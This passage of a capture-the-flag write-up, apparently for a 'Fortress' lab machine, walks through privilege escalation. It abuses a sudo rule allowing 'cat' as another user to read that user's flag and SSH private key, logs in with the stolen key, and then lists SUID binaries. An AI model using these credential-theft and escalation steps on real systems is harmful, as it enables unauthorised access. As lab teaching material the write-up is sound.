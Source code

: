 ## Privilege Escalation

So now we have to do Privilege escalation so we can start with `sudo -l` command and they show us the following output
```shell
Matching Defaults entries for h4rdy on fortress:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User h4rdy may run the following commands on fortress:
    (j4x0n) NOPASSWD: /bin/cat
```

So user `h4rdy` use `cat` command with `no password` as a `j4x0n` user and that's nice for us because if `h4rdy` don't have a `user.txt` flag so `j4x0n` does so we use the following command to `cat` that flag
```shell
$ sudo -u j4x0n cat /home/j4x0n/user.txt
```
So we can successfully see that flag that only `j4x0n` user does so now we can also see `j4x0n` ssh private key with this also 
```shell
$ sudo -u j4x0n cat /home/j4x0n/.ssh/id_rsa
```
![fortress_jaxonkey](https://user-images.githubusercontent.com/85181215/133460060-52eca4f6-dfc4-41a6-a338-68133e67cffe.png)

So now we have the `j4x0n` key also so we do the same step for `j4x0n` also
```shell
$ echo 'private key here' > j4x0n_rsa
$ chmod 600 j4x0n_rsa
```

```shell
$ ssh -i j4x0n_rsa   j4x0n@10.10.238.81
```
![fortress_jaxon](https://user-images.githubusercontent.com/85181215/133458953-c5df9a55-0b89-4a90-b1bd-8acf5371395a.png)

And we got `j4x0n` also 

So now we can use `sudo -l` there also for easy privilege escalation vectors but they required password we don't have so we can `find` system `SUID` binaries using the following command
```shell
$ find / -perm /4000 -exec ls -al {} \; 2>/dev/null
```
and the output is like this 
```
-rwsr-xr-x 1 root root 615496 Jul 25 21:21 /usr/local/bin/sudo
-rwsr-xr-x 1 root root 14864 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 428240 May 27  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Jun 12  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 84120 Apr 10  2019 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 54256 Mar 27  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jan 20  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 32944 Mar 27  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 40432 Mar 27  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 39904 Mar 27  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75304 Mar 27  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 32944 Mar 27  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 23376 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 71824 Mar 27  2019 /usr/bin/chfn
-rwsr-sr-x 1 daemon daemon 51464 Jan 15  2016 /usr/bin/at
-rwsrwxr-x 1 root root 16696 Jul 26 12:55 /opt/bt
-rwsr-xr-x 1 root root 44680 May  8  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 Jan 27  2020 /bin/umount
-rwsr-xr-x 1 root root 44168 May  8  2014 /bin/ping
-rwsr-xr-x 1 root root 40152 Jan 27  2020 /bin/mount
```